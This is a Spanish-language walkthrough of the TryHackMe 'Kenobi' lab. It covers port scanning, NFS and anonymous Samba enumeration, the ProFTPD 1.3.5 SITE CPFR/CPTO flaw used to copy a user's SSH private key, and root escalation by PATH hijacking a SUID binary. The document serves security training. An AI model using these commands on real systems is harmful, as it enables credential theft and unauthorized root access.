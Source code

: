 ```yaml
---
title: Kenobi
description: Write Up de Kenobi TryHackMe
published: true
date: 2025-05-12T15:31:56.389Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:51:34.674Z
---
```


# Kenobi
Bienvenido a la máquina Kenobi, hecha en GitHub.

## Exploración
Lo primero que vamos a hacer es un escaneo de puertos para saber que servicios tiene disponibles.
10.10.218.69
```
nmap -sT -Pn -sV {IP}
```

![Escaneo de puertos](/imagenes/kenobi_1.png)

Como podemos observar tenemos:
- Un servicio FTP
- Un servicio SSH
- Un servicio HTTP
- Servicio de Samba
- Puero 2049

Lo más interesante que podemos observar, es la página web, el servidor ftp y el puerto 2049. Teniendo el puerto 2049, con un NFS, podemos intentar montar el disco que hay disponible.

Para ello deberemos saber que puerto hay disponible, eso lo hacemos mediante:
```
showmount -e {IP}
```

Una vez que vamos a importar, creamos una carpeta similar y lo montamos:
```
mkdir -p tmp/var
sudo mount -t nfs {IP}:/var tmp/var
```

![Conexión con el NFS](/imagenes/kenobi_2.png)

Ahora entramos en la carpeta y listamos lo que hay


![Listado de lo que podemos ver](/imagenes/kenobi_3.png)

Investigaremos esto en profundidad mas adelante, vamos a intentar conectarnos como anonymous en el servidor FTP

![Intento FTP](/imagenes/kenobi_4.png)

Sin embargo, podemos observar que no hemos puesto la credecial correcta. 

Vamos a investigar con respecto a la página web.

![No funcional](/imagenes/kenobi_5.png)

Solo tenemos una imagen, por lo que investigaremos el último servicio que nos queda que es samba.

Vamos a ejecutar el siguiente comando:
```
smbclient -L //{IP} -N
```

Con este comando vamos a ejecutar una lectura principal de usuarios y servicios activos, donde podemos ver que hay una cuenta llamada anonymous 

![Cliente de samba](/imagenes/kenobi_6.png)

Ahora vamos a intentar conectarnos como ese usuario:
```
smbclient //{IP}/anonymous
```
Nos pedirá una contraseña, sin embargo está vez si que nos permite el acceso con las credenciales predeterminadas (anonymous/anonymous).

Haremos una lectura de los archivos con un ls, y nos descargaremos el fichero que haya.

```
ls
get log.txt
```

![Conectarse y obtención de claves](/imagenes/kenobi_7.png)

Una vez descargado, vamos a leer el log, que parece ser todos los logs, tanto de samba, como de FTP y SSH.

![Lectura de logs](/imagenes/kenobi_8.png)

De este archivo no tenemos mucha mas información importante, sin embargo podriamos intentar hacer un exploit de ftp, ya que sabemos que usa proftpd y con el escaneo de nmap, podemos descubirr que es versión 1.3.5

![Explotación de ftp](/imagenes/kenobi_9.png)

Ahora vamos a hacer lo siguiente
```
nc {IP} 21
```

Con esto nos conectamos al seridor FTP, sin embargo por esta versión hay una vulnerabilidad de copia de archivos sin estar verificado, por lo que podemos continuar con:
```
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO {lugar donde dejamos el archiv}
```

![Obtención de archivo id](/imagenes/kenobi_10.png)

> Tener en cuenta el directorio donde estamos
{.is-warning}


Debido a que ya tenemos el rsa, podemos conectarnos.

## Explotación
Vamos a modificar el archivo para que solo posea permisos de lectura, ya que de otra manera el archivo se identificará como peligroso.
```
chmod 600 id_rsa
```

Para conectarnos de forma remota, vamos a poner el siguiente comando:
```
ssh -i {Ubicación del fichero} kenobi@{IP}
```

![Conectarse al usuario](/imagenes/kenobi_11.png)

No podemos securizar la shell ya que para ello necesitamos administrador.


Sin embargo podemos obtener la primera flag 
![Lectura de flag](/imagenes/kenobi_12.png)

## Escalada

Ahora vamos a intentar escalar privilegios, para ello vamos el siguiente comando:
```
find / -perm -u=s 2>/dev/null
```

De todo el listado, nos llama la atención uno llamado "menu", este binario no es comun en Linux
![Investigar binarios](/imagenes/kenobi_13.png)

Cuando lo ejecutamos, parece ser que salé un pequeño menu en el que podemos comprobar versiones, mirar la versión del kernel y mirar la configuración de red.

![Ejecución de binario](/imagenes/kenobi_14.png)

Podemos intentar analizar el binario de la siguiente manera:
```
strings /usr/bin/menu
```

![Lectura del binario](/imagenes/kenobi_15.png)

Analizando el binario, parece que ejecuta los comandos sin una ruta absoluta definida. Por lo tanto será vulnerable a path hijacking, esto lo ahcemos modificando nuestro $PATH.

Comprobamos nuestro $PATH con
```
echo $PATH
```

![Lectura del path](/imagenes/kenobi_16.png)

Para la modificación, podemos copiar un binario como puede ser /bin/sh, y llamarlo ifconfig, tras esto modificaremos nuestro PATH y así podremos hacer engañar el sistema.

```
cd /tmp
echo "/bin/bash" > ifconfig
chmod +x ifconfig
PATH=/tmp:$PATH
```

![Preparación de exploit](/imagenes/kenobi_17.png)

Ahora simplemente deberemos ejecutar de nuevo el script, pero esta vez indicamos la tercera opción que es la correspondiente a el ifconfig.

![Ejecución del exploit](/imagenes/kenobi_18.png)

Ya somos root, ahora podemos ir al directorio home y obtener la ultima flag.

![Flag](/imagenes/kenobi_19.png)